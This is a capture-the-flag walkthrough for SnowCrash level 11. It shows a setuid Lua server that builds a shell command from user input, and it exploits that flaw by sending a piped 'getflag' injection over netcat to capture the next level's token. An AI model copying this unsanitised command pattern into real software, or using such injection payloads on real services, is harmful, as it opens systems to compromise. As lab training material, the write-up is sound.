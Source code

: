 # Level 11

- We login as user level11.
```
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```


- A lua script has been left to us, let's `cat level11.lua`:
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```


- This script defines a TCP server listening on 127.0.0.1 through port 5151. It prompts clients attempting to connect, asking for a password, which is then passed to a hashing function. The hash result is compared, and the server responds accordingly.
```
level12@SnowCrash:~$ netstat -tunlp | grep 5151
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
```


- There is indeed a server listening on 127.0.0.1 through port 5151. What interests us here is the hashing function. This function executes `echo "..pass.." | sha1sum`, then puts the output of this command into the file descriptor assigned to `prog`, so:
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password:|getflag>/tmp/lol
Erf nope..
```

```
level11@SnowCrash:~$ cat /tmp/lol
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

```
level11@SnowCrash:~$ su level12
Password:fa6v5ateaw21peobuub8ipe6s
level12@SnowCrash:~$
```